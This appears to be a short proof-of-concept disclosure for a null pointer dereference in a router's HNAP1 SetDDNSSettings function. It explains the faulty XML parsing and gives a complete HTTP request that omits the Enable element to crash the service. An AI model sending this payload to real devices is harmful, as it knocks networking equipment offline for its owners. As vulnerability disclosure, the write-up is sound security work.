


## poc

The vulnerability exists in the XML parsing logic of the SetDDNSSettings HNAP1 function `sub_459180`:




When the `Enable` element is missing from the XML request, `mxmlFindElement()` returns NULL, resulting in the Text variable being assigned a null pointer. At line 42, this null pointer is passed as a function parameter to `strncmp()`, which dereferences the null pointer without performing a null check, causing the application to crash.



### request
```xml
POST /HNAP1/ HTTP/1.1
Host: [TARGET_IP]
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetDDNSSettings"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetDDNSSettings xmlns="http://purenetworks.com/HNAP1/">
      <Provider>dyndns.org</Provider>
      <Username>test</Username>
      <Password>test</Password>
      <Hostname>test.example.com</Hostname>
    </SetDDNSSettings>
  </soap:Body>
</soap:Envelope>
```